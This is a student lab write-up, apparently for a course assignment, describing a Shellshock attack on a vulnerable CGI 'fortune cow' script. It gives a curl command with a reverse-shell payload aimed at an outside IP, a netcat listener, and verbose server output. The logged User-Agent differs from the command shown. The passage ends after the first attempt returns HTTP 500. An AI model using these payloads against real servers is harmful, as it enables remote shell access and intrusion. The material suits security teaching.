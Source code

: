 # Assignment 5 writeup
## reverse terminal
Looking around the vulnerable website. We see that the fortune telling cow is a shell script that is executed from cgi-bin. The source itself contains a comment saying that it uses bash 4-1 for reasons. Thus this means that a shell shock attack might yield some results. We try the following:
```bash
curl -v -A "() {:;}; exec sh -i &>/dev/tcp/213.124.179.37/9000"
  http://vulnserv.wggrs.nl:49163/cgi-bin/fortunecow.sh 
```
whilst running the following on my own machine
```bash
nc -n -lvp 9000
```
which gives the following result
```
*   Trying 35.214.135.47:49163...
* TCP_NODELAY set
* Connected to vulnserv.wggrs.nl (35.214.135.47) port 49163 (#0)
> GET /cgi-bin/fortunecow.sh HTTP/1.1
> Host: vulnserv.wggrs.nl:49163
> User-Agent: () { :; }; /bin/bash -c 'nc 213.124.179.37 9000 -e /bin/sh'
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 Internal Server Error
< Date: Mon, 21 Dec 2020 15:03:42 GMT
< Server: Apache/2.4.38 (Debian)
< Content-Length: 618
< Connection: close
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at vulnserv.wggrs.nl Port 49163</address>
</body></html>
* Closing connection 0
```
if the shellshock exploit doesnt work, the server should not give a response. The http 500 code is probably because the shell to my ip cannot be opened properly. Thus we try a different command.
